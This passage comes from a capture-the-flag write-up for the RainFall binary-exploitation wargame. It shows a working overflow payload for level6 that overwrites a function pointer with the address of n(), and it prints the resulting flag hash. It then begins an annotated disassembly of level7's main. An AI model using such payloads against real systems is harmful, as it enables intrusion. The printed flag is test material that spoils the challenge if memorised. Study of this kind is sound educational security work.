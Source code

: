 ```bash
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

- Let's try with the address of n() instead (`0x08048454`)

```

level6@RainFall:~$ ./level6  $(python -c 'print "A"*72')$(echo -n -e '\x54\x84\x04\x08')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

## Level7

- [`objdump -d` output](http://ix.io/2dxJ)

### ASM Interpretation

```asm
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048521 <+0>:     push   ebp ; ASM Prologue
   0x08048522 <+1>:     mov    ebp,esp ; ASM Prologue

   0x08048524 <+3>:     and    esp,0xfffffff0 ; Align esp
   0x08048527 <+6>:     sub    esp,0x20 ; Allocate 32 bytes on the stack

   0x0804852a <+9>:     mov    DWORD PTR [esp],0x8 ; Set 8 to the 1st argument of malloc()
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt> ; Call malloc(8);
   0x08048536 <+21>:    mov    DWORD PTR [esp+0x1c],eax ; Set 28th byte of the stack to eax (return of malloc)
   0x0804853a <+25>:    mov    eax,DWORD PTR [esp+0x1c] ; Set eax to the 28th byte of the stack
   0x0804853e <+29>:    mov    DWORD PTR [eax],0x1 ; Set the value pointed by eax to 1

   0x08048544 <+35>:    mov    DWORD PTR [esp],0x8 ; Set 1st argument of malloc() to 8
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt> ; Call malloc(8);
   0x08048550 <+47>:    mov    edx,eax ; Set edx to eax (return of malloc)
   0x08048552 <+49>:    mov    eax,DWORD PTR [esp+0x1c] ; Set eax to 28th byte of the stack
   0x08048556 <+53>:    mov    DWORD PTR [eax+0x4],edx ; Set the 4th to 8th byte of the allocation stored in the 28th to edx

   0x08048559 <+56>:    mov    DWORD PTR [esp],0x8 ; Set the 1st argument of malloc to 8
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt> ; Call malloc(8)
   0x08048565 <+68>:    mov    DWORD PTR [esp+0x18],eax ; Set the 24th byte of the stack to the return of malloc()
   0x08048569 <+72>:    mov    eax,DWORD PTR [esp+0x18] ; Set eax to the 24th byte of the stack
   0x0804856d <+76>:    mov    DWORD PTR [eax],0x2 ; Set the value of the first 4 bytes stored in eax to 2

   0x08048573 <+82>:    mov    DWORD PTR [esp],0x8 ; Set 8 as the first argument of malloc
   0x0804857a <+89>:    call   0x80483f0 <malloc@plt> ; Call malloc(8)
   0x0804857f <+94>:    mov    edx,eax ; Set the return of malloc to edx
   0x08048581 <+96>:    mov    eax,DWORD PTR [esp+0x18] ; Set eax to the 24th byte of the stack
   0x08048585 <+100>:   mov    DWORD PTR [eax+0x4],edx ; Set the 4th to 7th byte of the address stored in eax to the return of malloc store in edx

   0x08048588 <+103>:   mov    eax,DWORD PTR [ebp+0xc] ; Set eax to the 2nd argument of main() / av
   0x0804858b <+106>:   add    eax,0x4 ; add 4 to the address pointed by eax (av[1])
   0x0804858e <+109>:   mov    eax,DWORD PTR [eax] ; set eax to the value pointed by it
   0x08048590 <+111>:   mov    edx,eax ; Set edx to eax
   0x08048592 <+113>:   mov    eax,DWORD PTR [esp+0x1c] ; Set eax to the 28th byte of the stack
   0x08048596 <+117>:   mov    eax,DWORD PTR [eax+0x4] ; Set eax to the value pointed by it + 4

   0x08048599 <+120>:   mov    DWORD PTR [esp+0x4],edx ; Set the 2nd argument of strcpy to edx
```